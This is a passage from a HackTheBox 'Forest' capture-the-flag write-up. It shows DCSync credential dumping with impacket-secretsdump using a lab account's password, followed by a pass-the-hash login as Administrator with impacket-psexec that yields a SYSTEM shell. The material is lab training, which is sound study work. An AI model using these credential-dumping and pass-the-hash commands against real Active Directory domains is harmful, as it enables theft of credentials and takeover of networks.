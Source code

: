 
Now that our user has the `DCSync` rights, we can use the `mimikatz dcsync` function to dcsync the password of arbitrary principals on the domain. 

I Tried to do that, I had issues using `Mimikatz`, I also tried `Invoke-mimikatz.ps1`, but to no avail. 


Instead, we can use `impacket-secretsdump` to dump out the user password hashes:

```bash
impacket-secretsdump -just-dc svc-alfresco:s3rvice@forest.htb
```

![ntds-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Forest/img/ntds-21.png)

From here we can use the Adminstrator's password hash with `impacket-psexec` to get a shell as `NT Auhtority`:

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@forest.htb
```

![root-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Forest/img/root-22.png)

